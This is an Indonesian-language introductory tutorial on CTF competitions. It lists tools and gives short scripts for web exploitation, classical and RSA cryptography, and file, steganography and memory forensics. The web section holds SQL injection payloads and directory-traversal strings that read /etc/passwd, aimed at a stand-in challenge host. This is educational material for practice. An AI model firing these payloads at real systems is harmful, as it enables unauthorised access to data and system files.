

# Pengantar CTF (Capture The Flag)

CTF adalah kompetisi keamanan siber di mana peserta memecahkan tantangan untuk menemukan "flag" — string tersembunyi yang membuktikan kamu berhasil.

## Kategori CTF



## Tools Wajib

```bash
# Install tools dasar
apt install -y \
  binutils gdb pwndbg \
  python3 python3-pip \
  nmap netcat-openbsd \
  steghide exiftool \
  john hashcat

pip install pwntools requests beautifulsoup4

# Ghidra — reverse engineering (gratis dari NSA)
# CyberChef — Swiss army knife kriptografi (browser)
# Burp Suite Community — web proxy
```

## Web Exploitation

```python
import requests

# SQL Injection detection
url = "http://challenge.ctf.io/login"
payloads = ["'", "' OR '1'='1", "' OR 1=1--", "admin'--"]

for payload in payloads:
    r = requests.post(url, data={"username": payload, "password": "x"})
    if "Welcome" in r.text or r.status_code == 302:
        print(f"SQLi found! Payload: {payload}")
        break

# Directory traversal
for path in ["../etc/passwd", "../../etc/passwd", "%2e%2e%2fetc%2fpasswd"]:
    r = requests.get(f"http://challenge.ctf.io/file?name={path}")
    if "root:" in r.text:
        print(f"LFI found! Path: {path}")
```

## Kriptografi

```python
# Caesar cipher brute force
def caesar_decrypt(text, shift):
    result = ""
    for char in text:
        if char.isalpha():
            base = ord('A') if char.isupper() else ord('a')
            result += chr((ord(char) - base - shift) % 26 + base)
        else:
            result += char
    return result

ciphertext = "KHOOR ZRUOG"
for shift in range(26):
    decrypted = caesar_decrypt(ciphertext, shift)
    if "FLAG" in decrypted or "flag" in decrypted.lower():
        print(f"Shift {shift}: {decrypted}")

# RSA dengan small e
from Crypto.Util.number import long_to_bytes
import gmpy2

n = 0xdeadbeef...  # modulus
e = 3              # small public exponent
c = 0xcafebabe...  # ciphertext

# Cube root attack (jika m^e < n)
m, exact = gmpy2.iroot(c, e)
if exact:
    print(long_to_bytes(m))
```

## Digital Forensics

```bash
# Analisis file
file suspicious.bin          # Identifikasi tipe file
xxd suspicious.bin | head    # Hex dump
strings suspicious.bin       # Cari string yang bisa dibaca
binwalk suspicious.bin       # Cari file tersembunyi

# Steganography
steghide extract -sf image.jpg -p ""  # Extract tanpa password
zsteg image.png                        # Analisis PNG
exiftool image.jpg                     # Metadata

# Memory forensics
volatility -f memory.dmp imageinfo
volatility -f memory.dmp --profile=Win10x64 pslist
```

## Platform CTF untuk Latihan

| Platform | Level | Fokus |
|----------|-------|-------|
| [PicoCTF](https://picoctf.org) | Pemula | Semua kategori |
| [HackTheBox](https://hackthebox.com) | Menengah | Pentest |
| [TryHackMe](https://tryhackme.com) | Pemula-Menengah | Guided learning |
| [CTFtime](https://ctftime.org) | Semua | Kalender CTF |
| [CryptoHack](https://cryptohack.org) | Semua | Kriptografi |

## Latihan

1. Daftar di PicoCTF dan selesaikan 5 challenge kategori Web
2. Selesaikan 3 challenge kriptografi di CryptoHack
3. Tulis writeup untuk setiap challenge yang berhasil diselesaikan
